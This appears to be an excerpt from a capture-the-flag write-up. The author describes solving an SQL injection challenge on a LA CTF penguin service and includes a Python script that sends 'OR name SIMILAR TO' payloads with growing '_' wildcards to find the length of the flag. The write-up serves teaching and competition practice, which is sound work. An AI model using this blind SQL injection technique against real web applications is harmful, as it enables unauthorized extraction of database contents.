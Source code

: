 ![Extract from an interesting conversation had in a ticket](img/InterestingTicket.png)

### How it actually went during the CTF

One evening, I was at the gym to vent the frustration of not being able to find a rock on the west coast of California, United States (I love OSINT). Just before leaving, I heard that my teammate Leandro "Loldemort" Pagano was having a bad time with an SQLi. "Let me solve it," I wrote to him.

I hadn't read the code yet when I received a message on Discord from said player, expressing interest in solving the challenge. "Just use `_`", I said jokingly. I didn't know that the character was actually whitelisted.

My teammate had already discovered the existence of `SIMILAR TO`, so once I got home, I only had to deal with writing the payload. 

#### Payload used during the CTF

`findlen.py`
```py
from requests import *
from bs4 import BeautifulSoup

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = ""
i = 0

while True:
    payload = payloadStart + payloadEnd + "}"
    r = s.post(URL + "submit", data={"username": payload})
    soup = BeautifulSoup(r.text, "html.parser")
    if "We found a penguin" in soup.get_text():
        print("worked: ", payload)
        break
    else:
        payloadEnd += "_"
        print("failed: ", payload)
```

